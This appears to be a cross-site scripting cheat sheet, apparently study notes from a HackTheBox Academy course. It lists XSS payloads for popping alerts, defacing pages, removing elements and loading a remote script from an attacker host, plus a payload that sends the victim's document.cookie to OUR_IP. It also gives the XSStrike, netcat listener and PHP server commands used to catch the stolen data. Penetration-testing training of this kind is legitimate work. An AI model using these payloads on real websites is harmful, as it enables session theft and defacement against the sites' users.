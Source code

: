 
---

### **XSS Payloads**

| **Code**                                                                                      | **Description**                                                       |
| --------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload: Displays the origin of the website.                |
| `<plaintext>`                                                                                 | Basic XSS Payload: Renders everything after this tag as plain text.   |
| `<script>print()</script>`                                                                    | Basic XSS Payload: Triggers the `print()` function.                   |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload: Executes an alert if the image fails to load. |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change the webpage's background color.                                |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change the webpage's background image.                                |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change the title of the webpage.                                      |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite the website's main body with custom text.                   |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove a specific HTML element by its `id`.                           |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load a remote script from a specified server.                         |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send cookies to your server for exploitation.                         |

---

### **Command Utilities**

|**Command**|**Description**|
|---|---|
|`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`|Run XSStrike on a specific URL parameter to test for XSS vulnerabilities.|
|`sudo nc -lvnp 80`|Start a Netcat listener on port 80. Useful for receiving requests or data.|
|`sudo php -S 0.0.0.0:80`|Start a PHP server on port 80 to serve files or capture data.|

---
